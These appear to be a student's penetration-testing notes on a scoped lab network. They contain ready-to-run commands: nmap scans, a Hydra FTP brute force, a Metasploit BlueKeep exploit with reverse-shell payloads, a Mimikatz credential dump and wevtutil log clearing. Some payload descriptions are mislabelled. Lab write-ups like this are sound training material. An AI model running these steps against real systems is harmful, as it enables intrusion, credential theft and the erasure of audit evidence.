




Start OpenVPN:
- sudo openvpn --config client.ovpn
- Andrew-RT
- creds

Start Nessus:
- sudo systemctl start nessusd.service
- https://kali:8834

Kali:
IP: 192.168.0.183



**Aggressive nmap scan**
- `nmap -sS -A 10.0.0.82 > /home/kali/Documents/82scan.txt`

**Hydra Syntax**
- `hydra -L /home/kali/Documents/users.txt -P /home/kali/Documents/10k.txt ftp://10.0.0.82`

**This is an unecessary step, but I wanted to see if it would work.**
<!-- Activate Squid Proxy:
- `sudo apt-get install squid`
- `sudo cp /etc/squid/squid.conf /etc/squid/squid.conf.backup`
- `cd /etc/squid`
- `sudo nano squid.conf` -->

**BASIC NESSUS SCAN**
- Create a New Basic Scan
- Name: Basic Scan 1
- Given Nessus's limitations in directly excluding IPs via the UI, you have two main approaches:

Split the Target Range: Manually split your target range around the excluded IPs. This method is precise but can be cumbersome for larger lists of exclusions.

For your scenario, you could list the ranges as follows, skipping the excluded IPs: `10.0.0.1-10.0.0.5,10.0.0.7-10.0.0.99,10.0.0.104-10.0.0.133,10.0.0.135-10.0.0.175,10.0.0.177-10.0.0.254`

# RDP ACCESS
- `rdesktop -u vagrant -p vagrant 10.0.0.82`

# FTP ACCESS
- `ftp 10.0.0.82`
- `vagrant`
- `vagrant`

**Exploit Running**


**OSINT**


**NMAP Scans**


#### WordList Location in Kali (rockyou.txt)
- `/usr/share/wordlists/rockyou.txt`


## Trying to Exploit BlueKeep
- first I ran the Nessus basic command to see if it would find the vulnerability.
  - It found the BlueKeep vulnerability on 

### 


# TOP DOWN STRAT
Given the objectives and the vulnerabilities identified through your Nessus scans, your top-down strategy will involve multiple steps, from initial reconnaissance to gaining access and post-exploitation activities. The final goal is to establish an RDP connection and place a `.txt` file on systems `10.0.0.74` and `10.0.0.82`, which both have the BlueKeep vulnerability among other issues.

### 1. Reconnaissance and Initial Enumeration

**Objective**: Confirm services, open ports, and refine understanding of the target's vulnerabilities.

- **Performed an Nmap Scan on 10.0.0.74**:
  - `sudo nmap -sV -O 10.0.0.74` to identify open ports and services.
  - `sudo nmap -sV -p- 10.0.0.74`
  - `sudo nmap -sC -sV -p 3389 10.0.0.74` specifically for detailed RDP service enumeration.

- **Perform an Nmap Scan on 10.0.0.82**:
  - `sudo nmap -sV -O 10.0.0.82`
  - Use `sudo nmap -sV -p- 10.0.0.82` to identify open ports and services.
  - Run `sudo nmap -sC -sV -p 3389 10.0.0.82` specifically for detailed RDP service enumeration.
 

Based on the detailed Nmap scans you've conducted on `10.0.0.74` and `10.0.0.82`, along with the vulnerabilities identified by Nessus, here’s a revised and detailed strategy to establish RDP connections and place a `.txt` file on these systems, taking into account all vulnerabilities and service information provided.

### Step 2: Exploitation Strategy

#### For 10.0.0.74 & 10.0.0.82 (BlueKeep)

- **Metasploit Module**: Given BlueKeep's criticality and direct impact on RDP, prioritize the `exploit/windows/rdp/cve_2019_0708_bluekeep_rce` module in Metasploit for both targets.
- **Configuration**: Use the information from your scans to configure the exploit appropriately:
  - `set RHOSTS` to the target IP.
  - `set LHOST` to your attacking machine's IP (consider using tunneled or internal IP if you're navigating through networks).
  - `set PAYLOAD` to `windows/x64/meterpreter/reverse_tcp`.
  - `set TARGET` as per your best guess from the OS version detected by Nmap (`set TARGET 1` for Windows 7/2008 R2).
  - Consider setting `LPORT` to a non-standard port to avoid potential filtering.

  - `show options` to verify the configuration.

use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
set RHOSTS 10.0.0.74
set LHOST 172.27.216.36
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LPORT 50000
set TARGET 1
exploit

set RHOSTS 10.0.0.82
# LHOST remains the same (172.27.216.36), no need to set again if the exploit module hasn't changed
set LPORT 50001  # Changing the local port for the new session
exploit

# I'm still not able to get a connection established
- I tried show targets
  - TARGET 0, 1, & 7
- set TARGET 7 (AWS instances)
  - This did not work for 10.0.0.82
  - This did not work for 10.0.0.74

Other Shell Payloads to try:
**This payload opens a simple command shell.**
- set PAYLOAD windows/x64/shell_reverse_tcp

**Uses HTTPS for communication, making it more stealthy in environments where traffic is monitored as it blends in iwth normal HTTPS traffic.**
- set PAYLOAD windows/x64/shell_reverse_tcp

**Opens a command shell that listens on a specified port on the target machine.**
- set PAYLOAD windows/x64/shell_bind_tcp

**This payload attempts to establish a reverse TCP connection to the attacker's machine. (x86)**
- set PAYLOAD windows/x64/meterpreter/reverse_tcp

**This payload attempts to establish a reverse TCP connection to the attacker's machine as 32-bit version.**
-set PAYLOAD windows/meterpreter/reverse_tcp

**This payload attempts to establish a reverse TCP connection to the attacker's machine.**
- set PAYLOAD windows/meterpreter/reverse_tcp


- Deeper dive with aux modules
use auxiliary/scanner/rdp/rdp_scanner
set RHOSTS 10.0.0.82
run

use auxiliary/admin/rdp/rdp_enumencryption
set RHOSTS 10.0.0.82
run


#### Additional Vector for 10.0.0.82

- **Exploiting Other Vulnerabilities**:
  - **Schannel & MS12-020**: Look for corresponding Metasploit modules or other exploit tools. Schannel vulnerabilities often require specific conditions (e.g., specific patches missing), so research the exact CVE to find the most appropriate exploit.
  - **SNMP Misconfiguration**: Use SNMP to gather more detailed information about the target, potentially identifying additional vulnerabilities or obtaining credentials. Tools like `onesixtyone` can be used to query SNMP.
  - **FTP & HTTP Services**: Attempt anonymous or brute-force access to FTP. For HTTP, explore potential vulnerabilities in IIS 7.5, such as directory traversal or default credentials.

### Step 3: Gaining Access and Placing the .txt File

- **Post-Exploitation**: Once a Meterpreter session is established via BlueKeep or another exploit:
  - Use Meterpreter's `shell` command to drop into a command shell.
  - For RDP Access: If RDP isn't enabled or accessible, use `post/windows/manage/enable_rdp` to enable it, or leverage obtained credentials to connect.
  - **Placing the `.txt` File**: Use Meterpreter's `upload` command to place the `.txt` file in a specific location, or manually place it if using RDP.

### Step 4: Cleanup and Reporting

- **Cleanup**: Cover your tracks if necessary, removing logs or temporary files created during the exploitation process.
- **Documentation**: Document every step taken, from initial scans to successful exploitation and file placement. Include tool outputs, command lines used, and any difficulties or pivots in your strategy.

# A Final Walk Through

Let's recompile the guide with all the requested inclusions for a comprehensive, step-by-step replication of the entire penetration testing process.

---

# Complete Penetration Testing Walkthrough

## Project Scope and Constraints

**Initial Targets and Restrictions**:
- **Target Network**: `10.0.0.0/24`
- **Off-Limits**:
  - OpenVPN V1 (`10.0.0.176`)
  - Hunter systems (`10.0.0.100-101`, `10.0.0.103-102`)
  - Splunk (`10.0.0.111`)
- **Primary Target**: `10.0.0.82`

## Setup Phase

### Establishing Secure Connectivity
- **OpenVPN Configuration**:
  ```bash
  sudo openvpn --config /path/to/client.ovpn
  ```
  Provides encrypted access to the target network, crucial for discreet operations.

### Initiating Nessus for Vulnerability Scanning
- **Nessus Service Start**:
  ```bash
  sudo systemctl start nessusd.service
  ```
  Access Nessus at `https://kali:8834` to configure and launch scans against the target network and specifically `10.0.0.82`.

## Reconnaissance Phase

### Conducting Nmap Scans
- **Initial Network Mapping**:
  ```bash
  nmap -sn 10.0.0.0/24
  ```
  Identifies active hosts within the target network.

- **Detailed Service Scan**:
  ```bash
  nmap -sV -sC 10.0.0.82
  ```
  Reveals services on `10.0.0.82`, including FTP (`21/tcp`), HTTP (`80/tcp`), and RDP (`3389/tcp`).

## Exploitation Attempts

### BlueKeep Exploit Attempt with Metasploit
- **Failure to Exploit CVE-2019-0708 (BlueKeep)**:
  ```bash
  msfconsole
  use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
  set RHOSTS 10.0.0.82
  exploit
  ```
  The attempt fails, indicating potential patching or resilience against this exploit.

### Metasploit and Hydra Failures
- **Hydra FTP Brute Force Attempt Unsuccessful**:
  ```bash
  hydra -L users.txt -P pass.txt ftp://10.0.0.82
  ```
  Does not yield valid credentials, pointing towards robust password policies.

## Access Phase

### Successful FTP Access and File Transfer
- **FTP Server Access and File Download**:
  ```bash
  ftp 10.0.0.82
  mget *
  ```
  Successfully downloads files, including web pages and potential configuration files, for analysis to the attacker's machine.

### Gaining RDP Access
- **RDP Access with Discovered Credentials**:
  ```bash
  rdesktop 10.0.0.82 -u vagrant -p vagrant
  ```
  Achieves user-level access, enabling system exploration.

## Post-Exploitation and Credential Access

### Credential Extraction with Mimikatz
- **Mimikatz Execution**:
  ```powershell
  Invoke-Mimikatz -DumpCreds
  ```
  Extracts high-privilege credentials, including the Administrator's.

### Administrator Access via RDP
- **Utilizing Admin Credentials for Full Access**:
  ```bash
  rdesktop 10.0.0.82 -u Administrator -p [Extracted_Password]
  ```
  Secures administrative rights over the system, allowing for comprehensive control and further exploitation.

## Cleanup

### Erasing Activity Traces
- **Clearing Windows Event Logs**:
  ```cmd
  wevtutil cl Security
  wevtutil cl Application
  wevtutil cl System
  ```
  Removes evidence of penetration testing activities from the system logs, essential for operational security.

## Reporting and Documentation

**Comprehensive Documentation**:
- A detailed report is compiled, documenting the entire process, methodologies, tools used, successes, failures, and learned insights.
- Recommendations for remediation and security enhancements based on the findings are included, vital for improving the target's defense mechanisms.

## Conclusion

This walkthrough, designed with meticulous detail and structured for educational replication, covers every phase of the penetration test on `10.0.0.82`. From preparation, through detailed reconnaissance, to exploitation attempts, and finally, cleanup and reporting, it serves as an exhaustive guide for practitioners, peers, and instructors aiming to understand or replicate the testing process.

